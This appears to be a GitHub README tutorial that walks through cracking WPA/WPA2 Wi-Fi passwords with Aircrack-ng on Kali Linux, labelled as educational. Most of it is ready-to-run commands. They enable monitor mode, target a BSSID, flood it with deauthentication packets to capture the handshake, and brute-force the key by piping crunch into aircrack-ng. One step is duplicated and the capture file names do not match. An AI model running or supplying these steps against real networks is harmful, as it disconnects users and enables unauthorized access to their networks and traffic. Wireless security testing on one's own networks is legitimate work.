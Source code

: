 ##Introduction

Wi-Fi security plays a vital role in safeguarding digital privacy, and it's important for network administrators and cybersecurity enthusiasts to grasp how vulnerabilities can be taken advantage of. This tutorial will guide you through the process of hacking WPA-WPA2-protected Wi-Fi networks for educational purposes, utilizing Aircrack-ng on Kali Linux.

##Tools Required
Network Adapter (e.g., TL-WN722N V2) with monitoring mode support
Kali Linux 
Aircrack-ng
Airodump-ng
Airmon-ng

##Monitoring Mode Setup
# Step 1: Kill Interrupting Services
- Before enabling monitoring mode, identify and kill services that might interrupt the process:
```
sudo airmon-ng check wlan0
sudo airmon-ng check kill
```

# Step 2: Enable Monitoring Mode
- Stop the WLAN interface and enable monitor mode:
```
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

- Verify the mode using:
```
iwconfig
```

# Step 3: Capture BSSID and Monitor Network
- Use airodump-ng to capture BSSID information:
```
airodump-ng wlan0
```

- Select a specific BSSID for monitoring and run:
- Run the command in the background.
```
airodump-ng -c 1 -w Scan_network --bssid EK:KV:2H:J4:A3:38 wlan0
```
# Step 4: Deauthentication Process
- Deauthenticate the target Wi-Fi to capture the 4-way handshake:
- Run the command until you see the 4-way handshake in the background code.
```
sudo aireplay-ng -0 0 -a EK:KV:2H:J4:A3:38 wlan0
```

- Select a specific BSSID for monitoring and run:
- Run the command in the background.
```
airodump-ng -c 1 -w Scan_network --bssid EK:KV:2H:J4:A3:38 wlan0
```

#Final Stage: Password Cracking with Crunch and Aircrack-ng
- Using Crunch for Password Generation
```
sudo crunch 8 8 123456780 | aircrack-ng -w - WifiScan.cap -e Soham
```
